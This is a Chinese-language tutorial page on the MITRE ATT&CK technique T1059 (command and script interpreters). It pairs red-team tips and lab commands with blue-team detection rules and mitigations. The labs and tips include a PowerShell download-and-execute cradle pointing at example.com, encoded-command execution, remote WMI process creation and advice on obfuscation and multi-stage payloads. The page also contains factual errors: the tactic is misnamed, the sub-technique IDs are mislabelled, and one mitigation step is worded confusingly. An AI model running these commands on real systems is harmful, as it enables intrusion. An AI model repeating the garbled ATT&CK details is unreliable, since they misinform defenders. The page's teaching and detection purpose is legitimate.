

# 命令和脚本解释器 (T1059)

## 一句话通俗理解

> **命令和脚本解释器就是使用系统自带的合法工具执行恶意命令** -- 用办公室的打印机复印保密文件（使用合法设备干非法的事）。

## 难度等级

- ⭐⭐ 中级（需要一定基础）

命令本身简单，但需要了解各脚本环境的差异和特定用途。

## 技术描述

命令和脚本解释器（Command and Scripting Interpreter，T1059）是MITRE ATT&CK框架中防御削弱战术的重要技术。

> 📚 **打个比方**：就像小偷不用自己带撬棍，而是直接用你放在门口的钥匙开门——命令和脚本解释器就是攻击者利用系统自带的PowerShell、Python等合法工具来执行恶意操作，安全软件看到是"自己人"在干活，就放行了。

**通俗解释：**
你公司的保安不会拦着拿文件的人，因为那可能是自己的同事。攻击者就用这个逻辑 -- 用系统自带的PowerShell和wmic等合法工具执行恶意操作，杀毒软件看到是"自己人"在干活，就放行了。这就是"Living off the Land"（靠山吃山）策略 -- 不引入外来工具，全靠系统自带。

**技术原理：**
Windows/Linux/macOS系统默认安装了多种脚本执行环境：

1. **cmd.exe**：Windows命令提示符，执行批处理命令
2. **PowerShell**：强大的Windows自动化框架和脚本语言
3. **Windows Management Instrumentation (WMI)**：Windows管理规范，用于系统管理操作
4. **Windows Command Shell**：通用的Windows命令行
5. **Visual Basic for Applications (VBA)**：Office宏中的脚本语言
6. **JavaScript**：Windows Script Host中使用的脚本语言
7. **Bash**：Linux的标准shell

**用途与影响：**
使用系统内置的脚本解释器执行恶意操作可以绕过基于进程白名单的防御，因为`powershell.exe`或`wmic.exe`本身通常是白名单允许的正当进程。LOLBins策略是现代攻击的标准配置。

## 子技术列表

**该技术共有 9 个子技术：**

| 子技术ID | 中文名称 | 通俗解释 |
|----------|----------|----------|
| T1059.001 | PowerShell | 用PowerShell执行各种恶意操作 |
| T1059.002 | Windows命令Shell | 使用cmd.exe执行命令 |
| T1059.003 | Windows命令Shell | 使用wmic执行系统管理命令 |
| T1059.005 | Visual Basic for Applications | 利用Office宏执行恶意代码 |
| T1059.006 | Python | 使用Python执行恶意脚本 |
| T1059.007 | JavaScript | 使用Windows Script Host执行JS |
| T1059.008 | 网络设备CLI | 使用网络设备命令行 |
| T1059.009 | 容器编排 | 使用kubectl等容器管理命令 |

## 攻击流程



## 真实案例

### 案例1：APT29使用PowerShell执行恶意操作（2023-2024年）
- **时间**: 2023-2024年
- **目标**: 全球政府和外交部门
- **攻击组织**: APT29（Cozy Bear）
- **手法**: APT29使用PowerShell下载和执行恶意载荷，使用`-EncodedCommand`参数隐藏恶意命令内容，利用PowerShell远程管理功能进行横向移动。
- **参考**: [CISA - APT29 Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)

### 案例2：DarkSide勒索软件使用PowerShell禁用安全产品（2021年）
- **时间**: 2021年
- **目标**: 全球油气基础设施
- **攻击组织**: DarkSide
- **手法**: DarkSide使用PowerShell命令禁用安全产品和服务，执行端口扫描和横向移动。
- **参考**: [FBI Flash - DarkSide](https://www.ic3.gov/Media/News/2021/210510.pdf)

### 案例3：TrickBot使用VBA宏分发恶意软件（2016-2024年）
- **时间**: 2016-2024年
- **目标**: 全球金融机构
- **攻击组织**: TrickBot
- **手法**: TrickBot通过含有恶意VBA宏的Office文档分发初始载荷。宏执行后下载后续载荷。
- **参考**: [MITRE - TrickBot S0266](https://attack.mitre.org/software/S0266/)

### 案例4：QakBot使用Windows LNK文件执行恶意脚本（2024-2025年）
- **时间**: 2024-2025年
- **目标**: 全球金融、保险、法律行业
- **攻击组织**: QakBot
- **手法**: QakBot使用带有恶意LNK（Windows快捷方式）文件的钓鱼邮件。LNK文件指向powershell.exe或cmd.exe执行混淆的命令，下载并加载QakBot恶意负载。利用`%APPDATA%`和`%TEMP%`路径执行脚本，逃避基于静态签名的检测。
- **影响**: QakBot已成为全球最活跃的银行木马之一，2024年感染超过3000多家企业
- **参考链接**: [CISA - QakBot Advisory (2025)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-316a)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

**实战技巧：**
1. PowerShell混淆是必学技能，使用`-EncodedCommand`参数隐藏命令内容
2. 组合使用LOLBins（PowerShell + WMI + BITSAdmin）降低被检测概率
3. 使用多阶段PowerShell脚本，第一阶段简单，第二阶段从远程加载复杂载荷

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| PowerShell | 系统管理/恶意代码执行 | Windows | 系统自带 |
| cmd.exe | 命令行执行 | Windows | 系统自带 |
| WMIC | WMI查询/远程命令执行 | Windows | 系统自带 |
| Invoke-Obfuscation | PowerShell混淆工具 | PowerShell | [GitHub](https://github.com/danielbohannon/Invoke-Obfuscation) |

### 注意事项
- PowerShell脚本记录（ScriptBlock Logging）可以记录所有执行的PowerShell命令
- Windows 10+默认启用PowerShell日志记录
- 混淆后的PowerShell命令长度异常可能触发EDR告警

## 蓝队视角

**防御重点：**
- 启用PowerShell ScriptBlock日志记录
- 监控异常的`-EncodedCommand`使用
- 实施PowerShell约束语言模式（Constrained Language Mode）
- 监控Office宏的执行

**检测要点：**
- 命令行中出现`-EncodedCommand`或长Base64字符串
- 非管理员用户执行PowerShell远程命令
- Office进程启动PowerShell或cmd

## 检测建议

### 网络层检测

**检测方法：** 监控PowerShell/WScript/CScript的异常出站连接和脚本下载

**具体规则/命令示例：**
```bash
# 检测PowerShell远程下载执行
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"PowerShell Remote Download"; content:"powershell"; nocase; pcre:"/Net\.WebClient|Invoke-WebRequest|Invoke-RestMethod|Start-BitsTransfer/Hi"; classtype:trojan-activity; sid:1000040; rev:1;)

# 检测WScript从远程URL加载脚本
alert tcp $HOME_NET any -> $EXTERNAL_NET any (msg:"WScript Remote Script Load"; flow:to_server; content:"|2e|js|20|http|3a|"; nocase; classtype:trojan-activity; sid:1000041; rev:1;)
```

### 主机层检测

**检测方法：** 监控脚本解释器的进程创建事件，重点关注编码执行、远程下载和混淆参数

**Windows事件ID：**
- PowerShell事件ID 4104（ScriptBlock日志）：检测混淆的PowerShell代码
- Sysmon事件ID 1：监控PowerShell、CMD、WScript、CScript的进程创建
- 事件ID 4688：检测脚本解释器的启动及其命令行参数

**Linux日志：**
- 日志文件：`/var/log/audit/audit.log`
- 关键字段：`bash`、`python`、`perl`等解释器的异常执行

**具体命令示例：**
```powershell
# 检测PowerShell编码执行
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-PowerShell/Operational';ID=4104} | Where-Object {$_.Message -match 'FromBase64String|IEX|EncodedCommand'}
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: Suspicious PowerShell Command
status: experimental
description: Detects PowerShell execution with encoded or obfuscated commands
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine|contains:
            - '-EncodedCommand'
            - 'FromBase64String'
            - 'IEX'
    condition: selection
level: high
tags:
    - attack.t1059
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 启用PowerShell ScriptBlock日志记录

**具体实施步骤：**
1. 通过组策略启用PowerShell ScriptBlock日志记录（事件ID 4104）
2. 记录脚本调用到事件日志，监控混淆和解码行为
3. 将日志转发到SIEM系统进行集中分析

**配置示例：**
```xml
<Group Policy>
Computer Configuration > Administrative Templates > Windows Components > Windows PowerShell
    - Turn on PowerShell Script Block Logging: Enabled
    - Log script invocation to event log: Enabled
```

### 优先级2：重要措施

**措施名称：** 实施PowerShell约束语言模式

**具体实施步骤：**
1. 在非管理员用户环境中启用PowerShell约束语言模式（CLM）
2. 配置WDAC AppLocker限制PowerShell的脚本执行范围
3. 禁用PowerShell 2.0以绕过安全日志记录功能

**配置示例：**
```powershell
# 启用约束语言模式
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

### MITRE ATT&CK缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1047 | 审计 | 适用 | 启用PowerShell ScriptBlock日志记录 |
| M1045 | 软件限制策略 | 适用 | 实施PowerShell约束语言模式 |
| M1038 | 执行防护 | 适用 | 配置ASR规则阻止Office创建子进程 |
## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：PowerShell执行命令（初级）
```powershell
# 直接执行
powershell -Command "Get-Process"
# 使用编码命令
$cmd = "Get-Process"
$encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($cmd))
powershell -EncodedCommand $encoded
```

### 实验2：PowerShell下载执行（中级）
```powershell
# 从远程下载并执行脚本
powershell -Command "IEX (New-Object Net.WebClient).DownloadString('http://example.com/script.ps1')"
```

### 实验3：使用WMI远程执行（高级）
```powershell
# 远程创建新进程
$Computer = "TARGET-PC"
$Process = "powershell.exe -Command 'whoami'"
Invoke-WmiMethod -ComputerName $Computer -Path Win32_Process -Name Create -ArgumentList $Process
```

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| LOLBins | Living off the Land Binaries | 利用系统自带的合法工具执行攻击操作 |
| 脚本日志 | ScriptBlock Logging | PowerShell执行脚本的完整记录 |
| 约束语言模式 | Constrained Language Mode | PowerShell的安全执行模式 |

## 参考资料

- [MITRE ATT&CK - T1059 Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [CISA - QakBot Advisory (2025)](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-316a)
- [CISA - APT29 Advisory](https://www.cisa.gov/news-events/cybersecurity-advisories/aa24-038a)
- [Invoke-Obfuscation - PowerShell混淆工具](https://github.com/danielbohannon/Invoke-Obfuscation)
